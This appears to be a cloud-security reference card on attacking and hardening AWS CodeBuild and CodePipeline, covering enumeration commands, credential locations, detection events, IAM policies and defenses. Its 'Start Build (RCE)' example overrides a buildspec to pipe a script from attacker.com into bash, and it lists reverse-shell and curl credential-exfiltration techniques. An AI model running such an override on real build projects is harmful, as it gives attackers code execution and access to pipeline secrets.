

#  AWS CodeBuild & CodePipeline



> **Category**: CI/CD

CodeBuild and CodePipeline are AWS's CI/CD services for building, testing, and deploying applications. Attackers exploit build environments for code execution, credential theft from environment variables, and supply chain attacks through compromised build artifacts.

## Quick Stats

| Supply Chain Risk | Code Execution | Credential Exposure | Poisoning Target |
| --- | --- | --- | --- |
| **CRITICAL** | **RCE** | **Secrets** | **Artifacts** |

## Service Overview

### Build Projects & Buildspecs

CodeBuild projects define the build environment, source provider, and buildspec file that controls every build step. Buildspecs execute arbitrary shell commands with the project's IAM role permissions, making them a prime target for injecting malicious build steps.

### Environment Variables & Secrets

Build projects store configuration as environment variables — often including database credentials, API keys, and tokens. Variables can reference Secrets Manager or SSM Parameter Store, but plaintext variables are visible to anyone with codebuild:BatchGetProjects permissions.

### Artifacts & Build Output

Build artifacts are stored in S3 and may be deployed directly to production. A compromised build can inject backdoors into application packages, container images, or deployment bundles — creating supply chain attacks that propagate downstream.

## Security Risk Assessment

`█████████░` **9.0/10** (CRITICAL)

CI/CD systems are prime targets for supply chain attacks. CodeBuild executes arbitrary code with powerful IAM roles. Environment variables often contain secrets. Compromised builds can poison production deployments.

## ⚔️ Attack Vectors

### Build Exploitation

- Buildspec injection via StartBuild
- Environment variable theft
- Build role credential abuse
- Artifact poisoning/backdooring
- Source code manipulation

## ⚠️ Misconfigurations

### Common Issues

- Secrets in PLAINTEXT env vars
- Overly permissive build roles
- No buildspec override protection
- Unencrypted artifact stores
- Missing build isolation (VPC)

## 💀 Exploitation

### Techniques

- Inject reverse shell in buildspec
- Exfil credentials via curl
- Pivot using build service role
- Backdoor container images
- Modify deployment artifacts

## 🔑 Credential Locations

### Secrets

- Environment variables (API)
- AWS_ACCESS_KEY_ID/SECRET
- IMDS role credentials
- Secrets Manager references
- Build logs (if verbose)

## 🔗 Supply Chain Risks

### Attack Surface

- Compromised build images
- Malicious dependencies
- Poisoned artifacts to S3/ECR
- Backdoored containers
- Modified deployment configs

## 🛡️ Detection

### CloudTrail Events

- StartBuild (with override)
- UpdateProject
- BatchGetProjects (enum)
- UpdatePipeline
- ImportSourceCredentials

**List Build Projects**
```bash
aws codebuild list-projects
```

**Get Project Details**
```bash
aws codebuild batch-get-projects --names my-project
```

**List Builds for Project**
```bash
aws codebuild list-builds-for-project --project-name my-project
```

**Get Build Details**
```bash
aws codebuild batch-get-builds --ids my-project:build-id
```

**List Pipelines**
```bash
aws codepipeline list-pipelines
```

**Get Pipeline Details**
```bash
aws codepipeline get-pipeline --name my-pipeline
```

**Get Environment Variables**
```bash
aws codebuild batch-get-projects --names my-project --query 'projects[].environment.environmentVariables'
```

**List Source Credentials**
```bash
aws codebuild list-source-credentials
```

**Start Build (RCE)**
```bash
aws codebuild start-build --project-name my-project --buildspec-override "version: 0.2\
phases:\
  build:\
    commands:\
      - curl attacker.com/shell.sh | bash"
```

**Get Build Logs**
```bash
aws logs get-log-events --log-group-name /aws/codebuild/my-project --log-stream-name build-id
```

## Policy Examples

### ❌ Dangerous - Overly Permissive Build Role

```json
{
  "Effect": "Allow",
  "Action": "*",
  "Resource": "*"
}

// Build role with full access enables:
// - Access any S3 bucket
// - Read all secrets
// - Assume other roles
```

*Build role with broad access enables lateral movement to any AWS resource*

### ✅ Secure - Scoped Build Role

```json
{
  "Effect": "Allow",
  "Action": [
    "logs:CreateLogGroup",
    "logs:PutLogEvents"
  ],
  "Resource": "arn:aws:logs:*:*:/aws/codebuild/*"
},
{
  "Effect": "Allow",
  "Action": "s3:PutObject",
  "Resource": "arn:aws:s3:::build-artifacts/*"
}
```

*Limited to only required build operations - logs and artifact storage*

### ❌ Dangerous - StartBuild with Override

```json
{
  "Effect": "Allow",
  "Action": [
    "codebuild:StartBuild",
    "codebuild:BatchGetProjects"
  ],
  "Resource": "*"
}

# Attacker can override buildspec with:
# - Malicious commands
# - Credential theft
# - Reverse shells
```

*Allows buildspec override for arbitrary code execution in build environment*

### ✅ Secure - Block Buildspec Override

```json
{
  "Effect": "Allow",
  "Action": "codebuild:StartBuild",
  "Resource": "arn:aws:codebuild:*:*:project/my-*",
  "Condition": {
    "Null": {
      "codebuild:BuildSpecOverride": "true"
    }
  }
}

// Cannot override buildspec - uses project config
```

*Uses IAM condition to prevent buildspec override attacks*

## Defense Recommendations

### 🔑 Use Secrets Manager References

Never use PLAINTEXT environment variables - reference Secrets Manager instead.

### 🚫 Block Buildspec Override

Use IAM conditions to prevent buildspec override in StartBuild calls.

### 🔒 Least Privilege Build Roles

Scope build roles to minimum required permissions for the build.

```bash
Only S3, ECR, and CloudWatch Logs for most builds
```

### 🌐 Enable VPC for Builds

Run builds in VPC to control network access and prevent data exfiltration.

### 📝 Sign Build Artifacts

Sign build artifacts and verify signatures before deployment.

```bash
Use AWS Signer or Cosign for container images
```

### 👁️ Monitor Build Activity

Alert on StartBuild with overrides, new projects, and credential access.

---

*AWS CodeBuild & CodePipeline Card*

*Always obtain proper authorization before testing*
